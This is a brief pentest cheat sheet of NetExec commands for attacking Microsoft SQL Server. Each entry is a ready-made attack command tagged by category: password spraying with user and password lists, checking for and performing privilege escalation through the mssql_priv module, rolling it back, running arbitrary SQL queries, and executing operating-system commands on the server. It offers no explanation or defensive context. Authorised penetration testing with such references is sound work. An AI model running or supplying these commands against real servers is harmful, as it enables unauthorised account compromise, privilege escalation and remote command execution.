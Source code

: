 # nxc

% nxc-mssql, netexec, windows, Active directory
#plateform/linux #target/remote #port/1433 #protocol/mssql

## mssql password spray
#cat/ATTACK/BRUTEFORCE-SPRAY  
```bash
nxc mssql <ip> -u <user.txt> -p <password.txt>  --no-bruteforce
```

## mssql check privesc
#cat/RECON 
```bash
nxc mssql <ip> -u <user> -p '<password>' --local-auth -M mssql_priv -o 'ACTION=enum_priv'
```

## mssql privesc
#cat/ATTACK/EXPLOIT 
```bash
nxc mssql <ip> -u <user> -p '<password>' --local-auth -M mssql_priv -o 'ACTION=privesc'
```

## mssql clean privesc
#cat/ATTACK/EXPLOIT 
```bash
nxc mssql <ip> -u <user> -p '<password>' --local-auth -M mssql_priv -o 'ACTION=rollback'
```

## mssql execute query
#cat/ATTACK/EXPLOIT 
```bash
nxc mssql <ip> -u <user> -p '<password>' --local-auth -q 'SELECT name FROM master.dbo.sysdatabases;'
```

## mssql execute command
#cat/ATTACK/EXPLOIT 
```bash
nxc mssql <ip> -u <user> -p '<password>' --local-auth -x <cmd|whoami>
```